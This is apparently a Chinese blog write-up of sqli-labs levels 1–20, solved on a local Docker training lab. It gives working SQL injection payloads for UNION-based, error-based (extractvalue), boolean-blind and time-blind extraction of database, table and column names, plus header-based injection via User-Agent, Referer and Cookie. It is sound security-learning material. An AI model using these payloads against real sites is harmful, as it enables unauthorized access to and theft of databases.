 ## sqlilab做题总结（一）

开始重新系统学习sql注入，本地docker搭建了一个sqlilab的靶场，今天先搞1-20.

##### Less1-4

Less1-4是最简单的四种情况，采用最基本的联合查询注入即可完成。注意不同的引号/括号闭合方式。主要有Less1:单引号闭合型，Less2:无任何引号or括号(数字型)，Less3:单引号加括号，Less4:双引号加括号。

主要注入payload(以Less1为例)：

```sql
?id=-1' union select 1,2,3 %23 # 判断显示位，本题为3列，其中第二列为Login name,第三列为password
```

```sql
?id=-1' union select 1,(select group_concat(schema_name) from information_schema.schemata),3 %23 # 数据库名
```

```sql
?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema="security"),3 %23 # 数据表名
```

```sql
?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="XXXXX"),3 %23 # 列名
```

##### Less5-10

这六个题主要考察报错注入和盲注(当然也可以全部盲注)，同样注意引号/括号闭合方式的不同。

Less5-6可以采用extractvalue,updatexml进行报错注入：(以Less5为例)

```sql
?id=1' and (extractvalue('asdfasdf', concat('~', (select database())))) %23 # 数据库名
```

````sql
?id=1' and (extractvalue('asdfasdf', concat('~', (select group_concat(table_name) from information_schema.tables where table_schema="security")))) %23 # 数据表名
````

```sql
?id=1' and (extractvalue('asdfasdf', concat('~', (select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="XXXXX")))) %23 # 列名
```

Less7-8可以采用布尔盲注，写脚本完成。主要借助ascii()函数，substr()等字符串处理函数，if，case when等条件语句，通过对某个目标项的某一位是否等于某个值来进行判断。

以less7为例(注意闭合方式为```'))```,通过修改start和value的值，一位一位判断database()返回的字符串的每一位的字符是什么，从而达到获取结果的目的。

```sql
?id=1'))and if(ascii(substr(database(),{start},1))={value},1,0) %23 # 数据库名
```

```sql
?id=1'))and if(ascii(substr(select group_concat(table_name) from information_schema.tables where table_schema="security",{start},1))={value},1,0) %23 # 表名
```

```sql
?id=1'))and if(ascii(substr(select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="XXXXX",{start},1))={value},1,0) %23   # 列名
```

Less9-10采用时间盲注，思路与7，8相似，不过这次改成了通过判断网页响应时间长短来确定我们盲注的结果是否正确。具体方法即如果判断正确则延迟5秒返回，如果判断错误则立即返回。

以Less9为例：

```sql
?id=1' and if(ascii(substr(database(),{start},1))={value},sleep(5),0) %23 # 数据库名
```

```sql
?id=1' and if(ascii(substr(select group_concat(table_name) from information_schema.tables where table_schema="security",{start},1))={value},sleep(5),0) %23 # 表名
```

```sql
?id=1' and if(ascii(substr(select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="XXXXX",{start},1))={value},sleep(5),0) %23   # 列名
```

##### Less11-14

Less11-14均可采用联合查询注入的形式(username框)，只不过变成了post，注意闭合方式和列数，具体不再赘述。

##### Less15-16

同Less7-8,采用布尔盲注完成(username框)。

##### Less17-20

Less17:username框经过测试发现存在转义，无法注入，但password框可以，虽然是update语句，同理直接闭合引号随后报错注入即可。

Less18:本题username框和password框全部存在转义，根据题目提示User-Agent请求头可以进行注入，故尝试User-Agent处闭合单引号随后报错注入。

Less19:本题提示Referer，故尝试Referer处报错注入即可。

Less20:本题提示Cookie，观察Cookie形式后尝试Cookie处报错注入即可。